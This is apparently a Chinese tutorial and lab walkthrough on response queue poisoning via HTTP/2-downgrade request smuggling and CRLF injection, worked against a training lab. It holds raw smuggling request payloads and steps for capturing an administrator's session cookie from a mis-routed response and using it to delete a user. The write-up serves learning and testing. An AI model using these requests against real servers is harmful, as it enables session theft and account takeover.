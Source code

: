 # 响应队列中毒

![image-20250412130235317](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412130235317.png)

和以往的 HTTP 走私攻击不同，以往情况下我们使用 HTTP 请求走私攻击时，往往将 request2（残留数据） 和 request3（normal 包） 拼接成一个整体（即残留数据拼接 normal 包），然而如果不将他们拼接在一起，则会产生如上响应队列出现错位的情况，比如如下案例：（为了方便解释，以下过程将与上图一一对应起来，以下场景是 H2.TE 走私场景）

**核心：简而言之，就是不将残留数据和 normal 包拼接在一起，而是将残留数据单独作为一个数据包，导致响应队列错位。**

如果前后端连接不复用，不存在错位污染。因为前后端连接不复用，一次请求响应对应一次 tcp 连接，没有响应队列的概念。即使是隧道攻击在一次 tcp 连接发送多次请求，也不会按照响应队列的模型处理，而是拆分成多个数据包分别处理。

![image-20250602191606999](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250602191606999.png)

1. 攻击者发送 request1 和 request2 作为整体。

```
POST / HTTP/2
Host: 0ad4009504ac3a8380e7172b0024007b.web-security-academy.net
Cookie: session=xIxhRxsK2M7Uz2QUi0tQ4GQftrZZN8I2
Transfer-Encoding: chunked
Content-Length: 123

0

POST /x HTTP/1.1
Host: 0ad4009504ac3a8380e7172b0024007b.web-security-academy.net
Transfer-Encoding: chunked

0


```

2. 当正常用户发送 request3 时，却响应残留在缓冲区的 request2。 

request3 ：

```
GET /admin HTTP/2
Host: 0ad4009504ac3a8380e7172b0024007b.web-security-academy.net
Cookie: session=qUiGUxGgL1pCNv70nMCrLB2iG2edrkra
```

但由于 request2 残留在缓冲区，所以他处理 request2 ，响应 reponse2 给 request3：

```
POST /x HTTP/1.1
Host: 0ad4009504ac3a8380e7172b0024007b.web-security-academy.net
Transfer-Encoding: chunked

0

```

3. 处理完 request2 后，request3 残留在缓冲区，他将 reponse3 返回给下一个请求的用户。当下一个请求的用户是攻击者时，他发送 request4 将返回 reponse3。

如果 request3 是正常用户访问敏感信息，那么攻击者通过发送 request4 接收 reponse3，导致窃取用户数据。

### 漏洞实验

1. 检测到 H2.TE 漏洞。

```
Transfer-Encoding: chunked

0

SMUGGLED
```

![image-20250412123203705](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412123203705.png)

2. 发送 attack 数据包。

![image-20250412133045074](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412133045074.png)

3. 靶场安排管理员定期发送 request3 访问敏感信息。
4. 攻击者发送任意数据包作为 request4，但返回 reponse3。

![image-20250412125838218](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412125838218.png)

5. 利用此 cookie 访问 admin 账户。

![image-20250412125927987](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412125927987.png)

6. 使用此 cookie 删除用户。

![image-20250412130000865](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412130000865.png)

注意：

- 这种攻击既可以通过经典的 HTTP/1 请求走私，也可以通过利用 HTTP/2 降级来实现。
- 虽然你 "竞争 request4" 和 "requst3 是否是敏感行为" 这两件事都有很大随机性，但是他能造成响应队列错位中毒，导致网站的正常功能严重受损，危害很大。

### 通过 crlf 进行的响应队列中毒

通过 crlf 直接注入另外一个包。

当降级后，后端服务器在缓冲区中将看成两个包。

![image-20250412130235317](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412130235317.png)

1. 使用 crlf 注入到某个请求头中。

![image-20250412170328566](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412170328566.png)

2. 攻击者发送以上 attack 包。
3. 重新发送 normal 包，获得管理员响应。

![image-20250412171417784](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412171417784.png)

4. 使用此 cookie 删除用户。

![image-20250412171641624](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/HTTP%20%E8%AF%B7%E6%B1%82%E8%B5%B0%E7%A7%81/images/image-20250412171641624.png)

